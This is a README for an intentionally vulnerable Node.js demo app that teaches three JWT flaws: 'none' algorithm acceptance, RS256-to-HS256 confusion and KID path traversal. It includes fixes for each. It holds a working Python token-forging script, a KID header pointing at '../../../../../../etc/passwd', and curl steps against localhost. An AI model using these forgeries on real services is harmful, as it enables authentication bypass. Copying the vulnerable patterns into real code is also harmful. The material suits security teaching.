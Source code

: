 # JWT Vulnerabilities Demo

This is a simple Node.js application that demonstrates three common JWT vulnerabilities:
1. The "none" algorithm vulnerability
2. The RS256 to HS256 algorithm confusion vulnerability
3. The JWT KID parameter injection vulnerability

This application is intentionally vulnerable for educational purposes only.

## Setup

1. Generate RSA keys:
```bash
node generate-keys.js
```

2. Install dependencies:
```bash
npm install
```

3. Start the server:
```bash
npm start
```

## Testing the Vulnerabilities

### 1. "none" Algorithm Vulnerability

#### Get a Valid Token
First, get a valid JWT token by logging in:
```bash
curl -X POST http://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin123"}'
```

#### Exploit the Vulnerability
1. Take the JWT token received from the login endpoint
2. Decode it using a JWT decoder
3. Modify the header to use the "none" algorithm
4. Remove the signature
5. Send the modified token to the protected endpoint

Example of a modified JWT header:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```

Send the modified token to the protected endpoint:
```bash
curl http://localhost:3000/protected \
  -H "Authorization: Bearer <modified-token>"
```

### 2. RS256 to HS256 Algorithm Confusion

#### Get a Valid RS256 Token
First, get a valid RS256 JWT token:
```bash
curl -X POST http://localhost:3000/rs256-login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin123"}'
```

#### Exploit the Vulnerability
1. Take the RS256 token received from the login endpoint
2. Decode it using a JWT decoder
3. Modify the header to use the HS256 algorithm
4. Sign the token using the public key as the HMAC secret
5. Send the modified token to the protected endpoint

Example Python code to generate the attack:
```python
import base64
import hashlib
import hmac

f = open("public.pem")
key = f.read()
# RS => HS, login -> admin
str = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6ImFkbWluIn0"

sig = base64.urlsafe_b64encode(hmac.new(key.encode(), str.encode(), hashlib.sha256).digest()).decode('utf-8').rstrip("=")

print(str+"."+sig)
```

Send the modified token to the protected endpoint:
```bash
curl http://localhost:3000/rs256-protected \
  -H "Authorization: Bearer <modified-token>"
```

### 3. JWT KID Parameter Injection

#### Get a Valid KID Token
First, get a valid JWT token with KID:
```bash
curl -X POST http://localhost:3000/kid-login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin123"}'
```

#### Exploit the Vulnerability
1. Take the token received from the login endpoint
2. Decode it using a JWT decoder
3. Modify the KID parameter in the header to point to a malicious file
4. Resign the token with the key from the malicious file
5. Send the modified token to the protected endpoint

Example of a modified JWT header:
```json
{
  "alg": "HS256",
  "typ": "JWT",
  "kid": "../../../../../../etc/passwd"
}
```

Send the modified token to the protected endpoint:
```bash
curl http://localhost:3000/kid-protected \
  -H "Authorization: Bearer <modified-token>"
```

## Security Implications

### "none" Algorithm Vulnerability
This vulnerability occurs because:
1. The application accepts tokens with the "none" algorithm
2. The verification process doesn't properly validate the algorithm
3. Tokens without a signature are accepted

### RS256 to HS256 Algorithm Confusion
This vulnerability occurs because:
1. The application accepts both RS256 and HS256 algorithms
2. The public key is used as the HMAC secret
3. The verification process doesn't properly validate the algorithm

### JWT KID Parameter Injection
This vulnerability occurs because:
1. The KID parameter is not properly sanitized
2. The application allows directory traversal in the KID parameter
3. The key file path is constructed without proper validation

## How to Fix

### "none" Algorithm Fix
To fix this vulnerability:
1. Always specify the exact algorithm to use during verification
2. Never accept tokens with the "none" algorithm
3. Always verify the signature

Example of secure verification:
```javascript
jwt.verify(token, SECRET_KEY, { algorithms: ['HS256'] });
```

### RS256 to HS256 Algorithm Confusion Fix
To fix this vulnerability:
1. Always specify the exact algorithm to use during verification
2. Never accept HS256 when expecting RS256
3. Use different keys for signing and verification

Example of secure verification:
```javascript
jwt.verify(token, publicKey, { algorithms: ['RS256'] });
```

### JWT KID Parameter Injection Fix
To fix this vulnerability:
1. Sanitize the KID parameter to prevent directory traversal
2. Use a whitelist of allowed KID values
3. Validate the key file path before reading

Example of secure KID handling:
```javascript
const allowedKids = ['key1', 'key2', 'key3'];
if (!allowedKids.includes(decodedHeader.kid)) {
    return res.status(401).json({ message: 'Invalid KID' });
}
const keyPath = path.join(KEYS_DIR, decodedHeader.kid);
``` 